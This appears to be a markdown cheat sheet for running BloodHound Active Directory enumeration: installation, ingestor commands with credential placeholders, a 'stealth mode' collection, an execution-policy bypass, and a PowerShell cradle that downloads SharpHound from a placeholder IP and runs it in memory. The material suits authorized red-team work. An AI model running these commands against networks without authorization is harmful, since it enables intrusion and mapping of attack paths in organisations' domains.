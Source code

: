 # Bloodhound

## Installation

    sudo apt-get install neo4j
    sudo apt-get install bloodhound

##### Run neo4j then bloodhound

    sudo neo4j console
    sudo bloodhound


## Commands:

    bloodhound-python -d DOMAIN -u USER -p PASSWORD -dc DC -c all

    rusthound -d DOMAIN_TO_ENUM -u 'USER@DOMAIN' -p 'PASSWORD' -o OUTFILE.TXT -z

    Import-Module sharphound.ps1; Invoke-bloodhound -collectionmethod all -domain DOMAIN

    sharphound.exe -c all -d DOMAIN

## More ingestors

##### Standard local execution
    
    ./SharpHound.exe --CollectionMethods All,GPOLocalGroup
    Invoke-BloodHound -CollectionMethod "All,GPOLocalGroup"
    Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV
    Invoke-BloodHound -CollectionMethod LoggedOn

##### Specify different domain and run in stealth mode and collect only RDP data

    Invoke-BloodHound --d <Domain> --Stealth --CollectionMethod RDP

##### Run in context of different user

    runas.exe /netonly /user:domain\user 'powershell.exe -nop -exec bypass'

##### Download and execute in memory

    powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('http://<IP>:/SharpHound.ps1');Invoke-BloodHound"

##### Metasploit

    use post/windows/gather/bloodhound       

## Purging Neo4j Database

    sudo rm -Rf /etc/neo4j/data/databases/* data/transactions/*
    sudo rm -Rf /etc/neo4j/data/transactions/*
